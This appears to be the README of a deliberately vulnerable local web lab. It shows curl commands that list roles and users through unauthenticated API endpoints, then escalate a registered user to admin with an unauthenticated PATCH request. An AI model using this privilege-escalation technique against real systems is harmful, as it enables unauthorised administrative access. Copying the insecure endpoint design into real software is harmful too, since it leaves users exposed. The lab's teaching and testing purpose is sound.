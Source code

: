 # Lab Setup

```bash
sudo docker compose up --build
```

# Procedure

Find the api documentation at http://localhost:3000/sitemap.xml. It lists all the routes available in the application.

## Roles identification and Review role permissions
Send a request to http://localhost:3000/api/roles

```bash
curl http://localhost:3000/api/roles
```

your output will look like this:
```bash
{"roles":[{"id":1,"name":"admin","permissions":"[\"all\"]","description":"Administrator with full access"},{"id":2,"name":"manager","permissions":"[\"read\", \"write\", \"manage_users\"]","description":"Manager with user management access"},{"id":3,"name":"user","permissions":"[\"read\"]","description":"Regular user with basic access"},{"id":4,"name":"admin","permissions":"[\"all\"]","description":"Administrator with full access"},{"id":5,"name":"manager","permissions":"[\"read\", \"write\", \"manage_users\"]","description":"Manager with user management access"},{"id":6,"name":"user","permissions":"[\"read\"]","description":"Regular user with basic access"}]}
```

## Switching to available roles
Create a user at http://localhost:3000/register

![Registration page](assets/register.png)

Get the users using the following command
```bash
curl http://localhost:3000/api/users
```

Find the details of your user, with your user id. Then run the following command.

```bash
curl -X PATCH http://localhost:3000/api/users/1 --data '{"role":"admin"}'
```

Then log in with that user.

## Have fun ;)
There are many more vulnerabilities. They are not required for the experiment, but you may find them at your leisure.